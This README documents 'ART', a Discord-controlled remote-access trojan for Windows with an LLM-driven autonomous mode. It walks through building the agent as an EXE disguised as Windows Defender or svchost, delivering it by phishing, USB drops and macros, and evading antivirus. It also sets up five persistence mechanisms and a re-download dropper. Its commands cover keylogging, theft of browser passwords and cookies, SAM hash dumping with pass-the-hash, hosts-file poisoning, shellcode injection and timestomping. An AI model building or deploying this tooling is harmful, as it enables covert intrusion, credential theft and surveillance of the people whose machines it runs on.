


# ART (Autonomous Red Teamer Discord C2 Agent: Complete Guide)

<p align="center">
   <a href="https://www.python.org/downloads/"></a>
   <a href="build.bat"></a>
   <a href="build.bat"></a>
   <a href="build.bat"></a>
</p>

<p align="center">
   <a href="#3-requirements"></a>
   <a href="#12-step-7--build-a-standalone-exe"></a>
   <a href="#table-of-contents"></a>
   <a href="LICENSE"></a>
</p>

<p align="center">
   <a href="DISCLAIMER.md"></a>
   <a href="DISCLAIMER.md"></a>
   <a href="#3-requirements"></a>
   <a href="#18-supported-commands"></a>
</p>

<p align="center">
   <strong>The ART of Offensive Security</strong><br />
   Author: Gabriel Dakinah Vincent
</p>

<p align="center">
   <strong>Windows-focused build, packaging, and operator reference for the ART project.</strong><br />
   See <a href="DISCLAIMER.md">DISCLAIMER.md</a> for authorization, safety, and legal-use guidance.
</p>

---

## Table of Contents
1. [Overview](#1-overview)
2. [Features](#2-features)
3. [Requirements](#3-requirements)
4. [Agent Files](#4-agent-files)
5. [Step 1 — Install Python & Set Up the Build Environment](#6-step-1--install-python--set-up-the-build-environment)
6. [Step 2 — Generate the RSA Operator Key Pair](#7-step-2--generate-the-rsa-operator-key-pair)
7. [Step 3 — Create a Discord Server](#8-step-3--create-a-discord-server)
8. [Step 4 — Register a Bot (Per Victim)](#9-step-4--register-a-bot-per-victim)
9. [Step 5 — Configure Gateway Intents](#10-step-5--configure-gateway-intents)
10. [Step 6 — Generate Invite Link & Add Bot to Server](#11-step-6--generate-invite-link--add-bot-to-server)
11. [Step 7 — Audit Permissions](#12-step-7--audit-permissions)
12. [Step 8 — Configure the Agent Script](#13-step-8--configure-the-agent-script)
13. [Step 9 — Build a Standalone EXE](#14-step-9--build-a-standalone-exe)
14. [Step 10 — Deploy](#15-step-10--deploy)
15. [Step 11 — Operate from Discord](#16-step-11--operate-from-discord)
15. [Step 12 — Repeat for Each Victim](#17-step-12--repeat-for-each-victim)
17. [Discord Server Structure](#18-discord-server-structure)
18. [Roles & Permissions](#19-roles--permissions)
19. [Heartbeat & Offline Detection](#20-heartbeat--offline-detection)
20. [Supported Commands](#21-supported-commands)
21. [Channel Reference](#22-channel-reference)
22. [Troubleshooting](#23-troubleshooting)
23. [Security & Cleanup](#24-security--cleanup)
24. [Metasploit Framework Integration](#25-metasploit-framework-integration)
25. [Improvement — One Bot, Many Agents (User Token Architecture)](#26-improvement--one-bot-many-agents-user-token-architecture)
26. [Comprehensive Guide: One Bot, Many Agents (User Token Architecture)](#27-comprehensive-guide--one-bot-many-agents-user-token-architecture)
27. [Production Deployment Checklist & Security Notes](#28-production-deployment-checklist--security-notes)
28. [build.bat — Complete Reference](#29-buildbat--complete-reference)
29. [agent_template.py — Internals Reference](#30-agent_templatepy--internals-reference)

---

## 1. Overview

This Discord C2 agent is for Windows. It connects to a Discord server via a bot token, auto-creates all required server categories and channels on first run if they do not exist, creates a unique victim channel, and supports remote command execution and file transfer — all over Discord's API.

Each deployed agent carries its own unique bot token so multiple agents can be online simultaneously without conflict.

---

## 2. Features

- **Remote Command Execution** — Run any shell command from Discord
- **File Upload/Download** — Transfer files to and from the victim
- **File Delete** — Delete files on the victim machine remotely
- **Message Box** — Display a popup message on the victim's screen
- **On-Demand Reporting** — Generate PTES-style reports with `!report` and upload them to `#reports`
- **Autonomous Mode** — Hand execution flow to the LLM with `!mode active`
- **Abort-to-Report Flow** — Stop autonomous mode with `!abort` and generate a report immediately
- **Heartbeat** — Agent sends periodic keep-alive signals with jitter
- **Offline Detection** — Victim channel is automatically tagged `[OFFLINE]` when agent goes silent
- **Role Management** — Auto-creates `Agent` role and assigns it to the bot on connect
- **Channel Management** — Auto-creates required C2 categories and channels on first run
- **Global Logging** — All commands and output logged to `#global-logs`
- **Artifact Separation** — Autonomous artifacts and reports are routed to dedicated channels (`#art-log`, `#reports`, `#intel-feed`, `#payloads`)

---

## 3. Requirements

### Python Version
- **Python 3.10+** is sufficient to run the agent directly
- **Python 3.13** is recommended to build the EXE (Python 3.10.0 has a `dis` module bug that breaks some build tools)
- Python 3.13 download: https://www.python.org/downloads/

### Runtime Dependencies

| Package | Purpose |
|---|---|
| `discord.py` | Discord bot API client |
| `requests` | HTTP file downloads via `!upload <url>` |
| `openai` | Report generation and autonomous planning |
| `aiofiles` | Non-blocking file writes for reports and large message artifacts |
| `pycryptodome` | Required for decrypting Chromium browser passwords and cookies via `!dump` |
| `Pillow` | Required for `!screenshot` — captures the desktop via `ImageGrab` |
| `pynput` | Required for `!keylog` — in-memory keystroke capture |

Install runtime packages:
```bash
pip install discord.py requests openai aiofiles pycryptodome Pillow pynput
```

### Optional Windows Persistence Dependencies

| Package | Purpose |
|---|---|
| `pywin32` | Required for the Startup Folder Shortcut persistence method |

Install if you plan to use all `!persist` methods:
```bash
pip install pywin32
```

### Build Dependencies

| Package | Purpose |
|---|---|
| `pyinstaller` | Compiling the agent into a standalone EXE |

Install build tooling:
```bash
pip install pyinstaller
```

`.\\build.bat` uses an advanced PyInstaller command with onefile output, explicit pywin32 hidden imports, and a dedicated work directory under `build/`.

### Configuration Requirements

These four constants must be set in `agent_template.py` before building. See [§13 Step 8](#13-step-8--configure-the-agent-script) for full configuration instructions.

| Constant | Required | Set Before Build | Notes |
|---|---|---|---|
| `BOT_TOKEN` | Yes | Yes | Discord bot token — one unique token per deployed agent |
| `OPENAI_API_KEY` | For `!report`, `!abort`, `!mode active` | Yes | Required for LLM-backed reporting and autonomous planning |
| `OPERATOR_RSA_PUBLIC_KEY` | For secure `!encrypt` | Yes | RSA-4096 PEM public key from `op_public.pem` — wraps the AES master key so only the holder of `op_private.pem` can recover it. Generate with `.\\build.bat genkey`. If blank, `!encrypt` sends the AES key as plain hex in Discord instead. |
| `RECOVERY_URL` | Optional | Optional | URL of the hosted agent EXE. If set, `!persist setup` deploys a PowerShell dropper (`wdrp.ps1`) that re-downloads and re-launches the agent if all three stable EXE copies are deleted. Leave blank to disable. |

> The agent connects to Discord with `BOT_TOKEN` only. All other constants unlock specific features — the agent runs without them but those features will be unavailable.

---

## 4. Agent Files

| File | Description |
|---|---|
| `agent_template.py` | The agent script — configure `BOT_TOKEN` and `OPENAI_API_KEY` here before building |
| `README.md` | Operator guide and deployment notes |
| `agent_logs/agent_deployment_log.xlsx` | Deployment tracking log — record bot tokens and victim assignments here |

> `build_env/` and `build/` are generated locally when you build the EXE and are not committed to the repo.

---

## 5. Step 1 — Install Python & Set Up the Build Environment

1. Download and install **Python 3.13** from https://www.python.org/downloads/
   - During install, check **Add Python to PATH**
   - Verify: `py -3.13 --version`
2. Create the build environment and install all dependencies:
```bat
.\\build.bat setup
```
This creates `build_env\` and runs `pip install -r requirements.txt` inside it. Only needed once per machine.

---

## 6. Step 2 — Generate the RSA Operator Key Pair

Run once per operator. This key pair is used to securely wrap the AES encryption key produced by `!encrypt`.

```bat
.\\build.bat genkey
```

This produces two files:

| File | Action |
|---|---|
| `op_private.pem` | Store offline — never commit to version control. Used by `.\\build.bat unwrapkey` to recover AES keys. |
| `op_public.pem` | Paste full contents into `OPERATOR_RSA_PUBLIC_KEY` in `agent_template.py` before building. |

> Requires OpenSSL on `PATH`. Git for Windows provides it at `C:\Program Files\Git\usr\bin`.
> The script refuses to overwrite an existing `op_private.pem` — delete it manually only if intentionally rotating keys.

---

## 7. Step 3 — Create a Discord Server

When the agent runs for the first time it automatically creates the following categories and channels if they don't already exist:

```
Discord Server
│
├── C2 OPERATIONS
│   ├── #briefings          ← Agent check-in announcements
│   └── #sitreps            ← Heartbeat messages
│
├── LOGS & AUDIT
│   ├── #global-logs        ← All command activity logged here
│   ├── #art-log            ← Autonomous logs and rich artifacts
│   └── #reports            ← Generated PTES reports
│
├── CONTROL
│   ├── #payloads           ← Staged files for `!upload <filename>`
│   └── #intel-feed         ← Exfiltrated or mirrored artifacts
│
└── VICTIMS
   └── #cmd-<hostname>-<id>   ← Auto-created per agent, private command channel
```

All channels are private — hidden from `@everyone`, visible only to the bot and server owner.

---

1. Open Discord and click the **+** icon on the left sidebar.
2. Select **Create My Own** → **For me and my friends**.
3. Name it something relevant (e.g., `C2-Operations`).

> **Tip:** Creating a fresh server avoids permission conflicts from previous setups.

---

## 8. Step 4 — Register a Bot (Per Victim)

Use the naming convention: `victim-<name>-<date>` (e.g., `victim-alice-2026-04-09`)

1. Go to the [Discord Developer Portal](https://discord.com/developers/applications).
2. Click **New Application** and name it using the convention above.
3. Go to the **Bot** tab → click **Add Bot**.
4. (Optional) Set the bot's username and avatar icon to match the victim identifier for easy tracking.
5. Click **Reset Token** and **copy the token** — you will need it for the agent script.

> **Naming convention:** `victim-<name>-<date>` keeps your bot list organized when managing multiple deployments (e.g., `victim-alice-2026-04-09`, `victim-bob-2026-07-01`). Match the bot username to the application name for consistency.

---

## 9. Step 5 — Configure Gateway Intents

Still on the **Bot** tab, scroll down to **Privileged Gateway Intents** and enable all three:

| Intent | Required |
|---|---|
| Presence Intent | Yes |
| Server Members Intent | Yes |
| Message Content Intent | **Yes — required for agent commands** |

---

## 10. Step 6 — Generate Invite Link & Add Bot to Server

1. In the developer portal, go to **OAuth2 → URL Generator**.
2. Under **Scopes**, select:
   - `bot`
   - `applications.commands`
3. Under **Bot Permissions**, select:
   - View Channels, Send Messages, Read Message History
   - Attach Files, Manage Channels, Manage Messages
   - Manage Roles, Manage Webhooks, Embed Links
   - Mention Everyone, Add Reactions, Use Slash Commands, Manage Threads
4. Copy the generated URL, open it in your browser, select your server, and click **Authorize**.

---

## 11. Step 7 — Audit Permissions

After the bot joins the server, verify the following:

- **Server Settings → Roles → Bot Role:** Confirm `Manage Channels` and `Manage Roles` are enabled.
- **VICTIMS Category → Permissions:** Ensure the bot's role has `View Channel`, `Manage Channels`, and `Send Messages` explicitly set (green checkmarks).
- The bot's role must be **above** any roles it needs to manage in the role hierarchy.

---

## 12. Step 8 — Configure the Agent Script

At this point you have your bot token (from Step 4), your RSA public key (from Step 2), and your OpenAI key. Open `agent_template.py` and set all four values:

```python
BOT_TOKEN = "<paste bot token here>"
```
```python
OPENAI_API_KEY = "<paste OpenAI key here>"
```
```python
OPERATOR_RSA_PUBLIC_KEY = """-----BEGIN PUBLIC KEY-----
<paste full contents of op_public.pem here>
-----END PUBLIC KEY-----"""
```
```python
RECOVERY_URL = ""  # optional: hosted URL of the built EXE for dropper recovery
```

Save the file.

> Each deployed agent must have its **own unique bot token**. Never reuse tokens across agents.
>
> If `OPERATOR_RSA_PUBLIC_KEY` is left blank, `!encrypt` still works but sends the AES key as plain hex in Discord instead of a secure `wrapped.b64` attachment.
>
> `RECOVERY_URL` is optional. If set, `!persist setup` deploys a PowerShell dropper that re-downloads the agent if all EXE copies are deleted.

---

## 13. Step 9 — Build a Standalone EXE


Convert `agent_template.py` into a single Windows executable using [PyInstaller](https://pyinstaller.org/).

### 1. First-time setup: let the build script install dependencies if needed
```bat
.\\build.bat --bootstrap
```

`.\\build.bat` prefers `build_env\Scripts\python.exe` when that virtual environment exists. If it does not, the script falls back to `py -3.13` automatically.

### 2. Normal rebuilds after setup
```bat
.\\build.bat
```


By default, `.\\build.bat` uses `icons/Windows Defender.ico` if that file exists. Change `DEFAULT_ICON_NAME` in `.\\build.bat` if you want a different default.

<p align="center">
   
</p>

The output EXE name follows the resolved icon name by default. For example, the default icon produces `build\Windows Defender.exe`.

### 3. Build with a custom EXE icon from `icons/`
```bat
.\\build.bat --icon my-icon.ico
```

Place `.ico` files in the `icons/` folder, then pass the filename to `--icon`. You can combine it with `clean` and `--bootstrap`, for example:
```bat
.\\build.bat clean --bootstrap --icon my-icon.ico
```

If the icon filename contains spaces, quote it:
```bat
.\\build.bat --icon "Microsoft 365.ico"
```

That build will produce `build\my-icon.exe` unless you override the output name explicitly.


For icon filenames, the EXE name follows the same basename by default. For example, `--icon "Microsoft 365.ico"` produces `build\Microsoft 365.exe`.

<p align="center">
   
</p>

### 3.1 Override the output EXE name
```bat
.\\build.bat --icon my-icon.ico --name client-updater
```

Use `--name` when you want the EXE filename to be different from the icon filename.

If the output name contains spaces, quote it:
```bat
.\\build.bat --name "Microsoft 365"
```

You can also combine quoted icon and output names:
```bat
.\\build.bat --icon "Microsoft 365.ico" --name "Client Updater"
```

### 4. List available icons
```bat
.\\build.bat --list-icons
```

The build script will produce `build\<resolved-name>.exe`.

Use `.\\build.bat clean` to remove the previous build output before compiling again.

The build script writes the final EXE to `build\<resolved-name>.exe` and keeps PyInstaller work files under `build\pyinstaller_work`.

### 5. Advanced build switches

If you do not pass any of the switches below, the existing behavior stays the same: `.\\build.bat` still performs a one-file, windowed build, uses the resolved default icon, and writes the EXE to `build\<resolved-name>.exe`.

| Switch | Purpose |
|---|---|
| `--python <path\|version>` | Use a specific `python.exe` or a `py` launcher selector such as `3.13` |
| `--console` / `--windowed` | Choose a console-visible debug build or the default windowed build |
| `--debug` / `--log-level <level>` | Increase PyInstaller verbosity for troubleshooting |
| `--smoke-test` | Print output size and generate a `.sha256` checksum after a successful build |
| `--version <x.y.z.w>` | Set Windows EXE version metadata |
| `--company <name>` | Set `CompanyName` in the EXE version metadata |
| `--product <name>` | Set `ProductName` and `FileDescription` in the EXE version metadata |
| `--manifest <asInvoker\|highest\|admin>` | Set the requested Windows execution level |
| `--requirements <file>` | Use an alternate requirements file during `--bootstrap` |
| `--output-dir <path>` | Write the built EXE to a different directory |
| `--archive` | Create a release zip containing the EXE and checksum |
| `--sign-script "command"` | Run a post-build signing or release hook and append the EXE path |

Example commands:

```bat
.\\build.bat dry-run --python 3.13 --console --debug
```

```bat
.\\build.bat --version 1.2.3 --company "ART Labs" --product "ART Agent" --manifest admin
```

```bat
.\\build.bat clean --output-dir release --smoke-test --archive
```

```bat
.\\build.bat --sign-script "echo signing"
```

---

## 14. Step 10 — Deploy

### Pre-Deploy Checklist

Before copying the EXE to a target, verify every item below:

1. **Token confirmed** — open `agent_template.py` and verify `BOT_TOKEN` is set to the correct bot token for this target.
2. **OpenAI key set** — confirm `OPENAI_API_KEY` is present if you plan to use `!report`, `!abort`, or autonomous mode.
3. **RSA key embedded** — if you intend to use `!encrypt`, confirm `OPERATOR_RSA_PUBLIC_KEY` is populated with your freshly generated public key.
4. **EXE built** — `build\<name>.exe` exists and has the expected icon.
5. **Smoke test** — run `.\\build.bat --smoke-test` to confirm the file size is reasonable (typical build: 15–30 MB).
6. **Local test run (recommended)** — run the EXE on your own machine briefly, confirm the `cmd-*` channel appears in Discord within 10 seconds, confirm `!whoami` responds, then kill the process.

### Rename for Stealth

Rename the built EXE to a name that matches its icon and blends with Windows system files:

| Icon Used | Suggested EXE Name | Suggested Drop Path |
|---|---|---|
| Windows Defender | `MsMpEng.exe` or `WindowsDefender.exe` | `C:\Users\Public\Microsoft\` |
| Microsoft 365 | `OfficeClickToRun.exe` or `AppVShNotify.exe` | `C:\Users\Public\Microsoft\` |
| Windows Update | `wuauclt.exe` or `WindowsUpdate.exe` | `C:\ProgramData\Microsoft\Windows\` |
| Generic System | `RuntimeBroker.exe` or `svchost.exe` | `C:\Users\Public\` |

> **Tip:** Place the renamed EXE in a directory path that matches its name — e.g., `C:\Users\Public\Microsoft\MsMpEng.exe` — so the full path looks legitimate in process listings.

### Delivery Vectors

Choose a delivery method appropriate for your authorized lab scenario:

| Method | Notes |
|---|---|
| USB drop | Copy the EXE to USB; plug in and run on target |
| Email attachment | Zip the EXE (optionally password-protect), attach and open on target |
| Shared folder / mapped drive | Copy to a network share the target has access to, then run |
| Web drive-by | `python3 -m http.server 8080` on operator machine — direct target to download and run |
| Macro-enabled document | VBA `Shell()` macro drops and runs the EXE on document open |
| Existing shell / WinRM / RDP | `scp`, `xcopy`, or `robocopy` the EXE to target, execute via shell |
| Discord DM / phishing | Send EXE as a Discord DM attachment from a social-engineering lure account |

### AV Considerations

Most AV products will detect a plain PyInstaller EXE by signature or heuristic:

- A system-looking icon and filename reduces initial file-based detection.
- If lab AV quarantines the EXE at rest, add a temporary folder exclusion for the delivery path during authorized testing, or test on an AV-excluded VM.
- Once the agent is running in memory, `!inject` operate entirely without touching disk — AV exposure is limited to the initial EXE drop.
- Rebuild with `.\\build.bat clean` before each deployment to avoid stale PyInstaller artifacts affecting detection rate.

### First-Run Behavior

Once executed on the target, the agent will automatically:

1. **Mutex check** — if another instance of the same agent is already running, the new instance exits immediately (single-instance enforcement).
2. **Hide the console window** — no visible terminal window appears on the target desktop.
3. **Generate a unique ID** from the machine's MAC address (falls back to UUID if no NIC is found).
4. **Connect to Discord** — authenticate with `BOT_TOKEN` and open a WebSocket gateway connection.
5. **Auto-create server structure** — create all required categories and channels if they do not already exist (C2 OPERATIONS, LOGS & AUDIT, CONTROL, VICTIMS).
6. **Create the victim channel** — `cmd-<hostname>-<uniqueid[:6]>` under the VICTIMS category.
7. **Post a check-in** to both `#briefings` and the victim channel:
   ```
   🟢 C2 Agent Online
   Host: DESKTOP-ABC123
   User: john
   ID: a1b2c3d4e5f6
   ```
8. **Start the heartbeat loop** — sends a keep-alive to `#sitreps` every 3–5.5 minutes (randomized jitter).
9. **Begin listening** for commands in its victim channel only.

### Post-Deploy Verification

After seeing the check-in message in `#briefings`:

1. Navigate to the victim's `cmd-*` channel.
2. `!sysinfo` — confirms shell execution and basic recon work.
3. `!whoami` — confirms user context and privilege level.
4. `!screenshot` — confirms the agent has display access.
5. `!ps` — confirms process enumeration for future injection use.
6. `!persist setup` — (optional but recommended) establishes all 5 persistence methods before moving on.

---

## 15. Step 11 — Operate from Discord

Go to the **VICTIMS** category in your Discord server and find the channel named `cmd-<hostname>-<id>`. Type commands directly in that channel.

**Example session:**
```
You:   whoami
Agent: john

You:   !ls C:\Users\john\Desktop
Agent: Directory listing for C:\Users\john\Desktop:
       secret.txt  passwords.xlsx

You:   !download C:\Users\john\Desktop\secret.txt
Agent: 📥 Downloading secret.txt: [file attached]

You:   !message Your computer needs an update
Agent: ✅ Message box displayed.
```

All output is also logged to `#global-logs`.

### Recommended Smoke Test

After the agent checks in, validate the primary operator paths in the victim channel:

1. `!help` — confirm the command list is current
2. `!report` — confirm a report lands in `#reports`
3. `!abort` — confirm passive mode is restored and a report is generated
4. `!mode active` — confirm autonomous mode starts cleanly
5. `!mode passive` — confirm autonomous mode stops and a report is generated

If `!upload <filename>` is part of your workflow, also place a file in `#payloads` and verify retrieval.

---

## 16. Step 12 — Repeat for Each Victim

For every new target, repeat Steps 4–11 with a **new bot application and token**. Steps 1–3 (environment setup, RSA key generation, Discord server creation) only need to be done once.

Track all deployments in `agent_logs\agent_deployment_log.xlsx`.

| Step | Action |
|---|---|
| 1 | Register new bot: `victim-bob-2026-04-09` |
| 2 | Paste Bob's token into `agent_template.py` |
| 3 | Build: `.\\build.bat` |
| 4 | Rename EXE and deploy to target |
| 5 | Bob's `cmd-*` channel appears in Discord automatically |

---

## 17. Discord Server Structure

The agent auto-creates all categories and channels on first run. No manual Discord setup is required beyond Steps 3–7.

```
Discord Server
│
├── C2 OPERATIONS
│   ├── #briefings          ← Agent check-in announcements
│   └── #sitreps            ← Heartbeat messages
│
├── LOGS & AUDIT
│   ├── #global-logs        ← All command activity logged here
│   ├── #art-log            ← Autonomous logs and rich artifacts
│   └── #reports            ← Generated PTES reports
│
├── CONTROL
│   ├── #payloads           ← Staged files for `!upload <filename>`
│   └── #intel-feed         ← Exfiltrated or mirrored artifacts
│
└── VICTIMS
   └── #cmd-<hostname>-<id>   ← Auto-created per agent, private command channel
```

All channels are private — hidden from `@everyone`, visible only to the bot and server owner.

---

## 18. Roles & Permissions

The agent implements automatic role management on first run:

| Role | Created By | Access Granted |
|---|---|---|
| `Agent` | Auto-created by agent | Assigned to the bot itself |
| Server Owner | Discord default | Auto-granted read/write on every victim channel |

> The `Admin` role grant has been removed from the template. Only the bot and the server owner can access victim channels by default.

---

## 19. Heartbeat & Offline Detection

The agent runs a background heartbeat loop:
- Sends a heartbeat to `#sitreps` every **3–5.5 minutes** (randomized jitter)
- If no heartbeat for **5 minutes**, the offline monitor renames the victim channel to `cmd-<hostname>-<id>[OFFLINE]`
- When the agent reconnects, the `[OFFLINE]` tag is automatically removed

---

## 20. Supported Commands

> All commands are processed **only** in the agent's assigned `#cmd-*` channel.  
> Output over 1900 characters is automatically attached as `out.txt`.  
> See [§21 Channel Reference](#22-channel-reference) for channel purposes.

---

### 18.1 Recon & Situational Awareness

| Command | Description |
|---|---|
| `!sysinfo` | OS version, domain, installed AV, local admins, logged-on users, and privilege level in one report |
| `!ps` | List all running processes — name, PID, session ID, memory usage |
| `!whoami` | Current user, group memberships, and full privilege set (`whoami /all`) |
| `!screenshot` | Capture and send a live screenshot of the current desktop |
| `!help` | Print all available commands to the victim channel |

---

### 18.2 File & Shell Operations

| Command | Description |
|---|---|
| `!ls [path]` | List directory contents — defaults to current working directory |
| `!cd <path>` | Change the agent's current working directory |
| `!download <path>` | Exfiltrate a file from the victim — sends as Discord attachment |
| `!exfil <file>` | Send any file as a Discord attachment and mirror it to `#intel-feed`. Files over 25 MB must be zipped first |
| `!files [path]` | List all `.art` encrypted files under a path with per-file byte sizes and a total |
| `!note <path> <text>` | Write `README.txt` containing `<text>` into the specified directory |
| `!upload <url\|filename> [dest]` | Fetch a file from a URL **or** from `#payloads` (filename only) and write it to the victim |
| `!upload --zip <archive.zip> [dest]` | Fetch a zip from `#payloads` or URL, then extract it after download |
| `!upload --b64 <payload.b64> [dest]` | Fetch a base64-encoded file from `#payloads` or URL, then decode it after download |
| `!zip <file\|folder>` | Zip a file or entire folder tree and send it as a Discord attachment |
| `!delete <path>` | Delete a file on the victim machine |
| `!shell <command>` | Run an explicit shell command and return its output |
| *(any other text)* | Executed directly as a shell command in the agent's current directory |

---

### 18.3 Loot Collection

| Command | Description |
|---|---|
| `!dump password` | Decrypt and exfiltrate saved passwords from Chromium-based browsers and Firefox |
| `!dump cookie` | Decrypt browser cookies — outputs Netscape `.txt` (curl/Burp) and Cookie-Editor `.json` (browser import) |
| `!dump hash` | Save Windows SAM, SYSTEM, and SECURITY hives, zip them, and upload for offline cracking. **Requires admin** |
| `!dump wifi` | Dump all saved WiFi SSIDs and cleartext passwords |
| `!dump env` | Exfiltrate all environment variables |
| `!dump all` | Run all loot collection types at once |


**Hash cracking workflow after `!dump hash`:**

1. Download the `hashes.zip` file from Discord
2. Extract the SAM, SYSTEM, and SECURITY hives
3. Use impacket-secretsdump:

```bash
# On operator machine (Linux/WSL)
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL
```

**Alternative hash cracking tools:**
```bash
# Using secretsdump.py directly
secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL

# Crack NTLM hashes with hashcat
hashcat -m 1000 -a 0 hashes.txt rockyou.txt

# Crack with john
john --format=NT hashes.txt --wordlist=rockyou.txt
```

**Pass-the-hash after extraction:**
```bash
# Use extracted NTLM hash with psexec
psexec.py -hashes :NTLM_HASH administrator@target-ip

# Or with wmiexec
wmiexec.py -hashes :NTLM_HASH administrator@target-ip
```

---

### 18.4 DNS Poisoning (`!pharm`)

| Command | Description |
|---|---|
| `!pharm add <domain> <ip>` | Add a DNS redirect entry to the hosts file |
| `!pharm remove <domain>` | Remove a redirect for a specific domain |
| `!pharm list` | List all active pharm redirects |
| `!pharm show` | Display the full contents of the hosts file |
| `!pharm flush` | Remove all pharm redirects at once |

> **Requires admin** on Windows 10+ to write to `C:\Windows\System32\drivers\etc\hosts`.

---

### 18.5 Interaction & Control

| Command | Description |
|---|---|
| `!message <text>` | Display a Windows message box popup on the victim's desktop |
| `!clipboard read` | Read the current contents of the clipboard |
| `!clipboard write <text>` | Write text to the clipboard |
| `!kill <pid>` | Forcefully terminate a process by PID |
| `!stealth` | Hide the agent's console window |

---

### 18.6 Keylogger

| Command | Description |
|---|---|
| `!keylog start` | Start in-memory keystroke capture |
| `!keylog stop` | Stop keystroke capture |
| `!keylog dump` | Send all buffered keystrokes as a file attachment and clear the buffer |
| `!keylog status` | Show keylogger state and buffered character count |

---

### 18.7 Autonomous Workflow

| Command | Description |
|---|---|
| `!mode active` | Start autonomous mode — hands control to the LLM (PTES-structured loop) |
| `!mode passive` | Return to passive mode — generates a report on exit from active mode |
| `!report` | Generate a PTES-style report from current assessment context and upload to `#reports` |
| `!abort` | Stop autonomous mode immediately, switch to passive, and generate a report |

---

### 18.8 Persistence

The agent copies itself to **3 stable locations** before registering any persistence trigger:

| Copy Location | Notes |
|---|---|
| `%APPDATA%\Microsoft\Windows\WindowsUpdate.exe` | Roaming — follows user across domain machines |
| `%LOCALAPPDATA%\Microsoft\Windows\WindowsUpdate.exe` | Local — separate from roaming profile |
| `%APPDATA%\Microsoft\Protect\WindowsUpdate.exe` | DPAPI folder — rarely inspected |

All **5 persistence triggers** point at these copies and fire independently at every logon:

| Method | Registry / Path |
|---|---|
| Registry Run Key | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\WindowsUpdate` |
| Startup Folder Shortcut | `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\WindowsUpdate.lnk` |
| Scheduled Task | `schtasks /SC ONLOGON /TN WindowsUpdate` |
| Registry Load Key | `HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load` |
| UserInitMprLogonScript | `HKCU\Environment\UserInitMprLogonScript` |

| Command | Description |
|---|---|
| `!persist setup` | Copy EXE to all 3 locations and apply all 5 persistence triggers |
| `!persist cleanup` | Remove all 5 triggers **and** all 3 EXE copies |

---

### 18.9 Lateral Movement & OPSEC

| Command | Description |
|---|---|
| `!runas <user> <pass> <cmd>` | Run a command as a different Windows user |
| `!timestomp <source> <target>` | Clone MAC timestamps and Windows creation time from source onto target file |
| `!wipe` | Overwrite and delete all loot files, schedule self-deletion of the agent EXE, disconnect |
| `!selfdestruct` | Full teardown: remove all 5 persistence triggers, delete all 3 EXE copies, wipe loot, schedule self-deletion, disconnect |


> `!selfdestruct` differs from `!wipe`: wipe removes only loot and the running EXE copy; selfdestruct additionally removes all persistence triggers and all 3 stable copies.

---

### 18.10 MSF Payload Delivery

| Command | Description |
|---|---|
| `!inject <pid> <b64_shellcode>` | Write raw shellcode into a running process and execute it via `CreateRemoteThread` — nothing written to disk |
| `!stager <url\|filename> [dest]` | Fetch an MSF stager EXE from `#payloads` or a URL, drop to disk, and execute silently |

> See [§24 Metasploit Framework Integration](#25-metasploit-framework-integration) for the full step-by-step guide for each approach.

---

### 18.11 Encryption

| Command | Description |
|---|---|
